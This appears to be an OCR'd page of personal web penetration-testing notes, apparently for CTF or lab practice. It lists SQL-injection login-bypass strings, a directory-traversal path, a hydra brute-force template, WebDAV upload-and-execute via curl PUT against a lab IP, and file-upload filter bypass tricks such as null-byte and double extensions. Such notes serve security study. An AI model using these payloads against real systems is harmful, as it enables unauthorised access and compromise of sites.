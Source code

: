     ```bash
    Hidden Values
        Developer Remarks
        Extraneous Code
        Passwords!
    ```

- burpsuite

    ```bash
    compare “host:”
    crsf token = no bruteforce
    add php code if url has anything.php
            <L>
     anything being executed?
            try directory traversal
                ../../../home
    ```

- sign in page

    ```bash
    SQL Injection

        ‘or 1=1– –
        ‘ or ‘1’=1
        ‘ or ‘1’=1 — –
        ‘–
        Use known Username
            tyler’ — –
            tyler’) — –

    #bruteforce
    hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>
    ```

- file upload

    ```bash

    #if NMAP show something like: Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND
    #we want to check if we can upload files
    davtest -url http://IP
    #if we see succedd we can use curl to upload:
    curl -X PUT http://10.10.10.15/df.txt -d @test.txt
    #and execute it:
    **curl http://10.10.10.15/df.txt**

    Blacklisting bypass
            bypassed by uploading an unpopular php extensions. such as: pht, phpt, phtml, php3, php4, php5, php6 
        Whitelisting bypass
            passed by uploading a file with some type of tricks, Like adding a null byte injection like ( shell.php%00.gif ). Or by using double extensions for the uploaded file like ( shell.jpg.php)
    ```
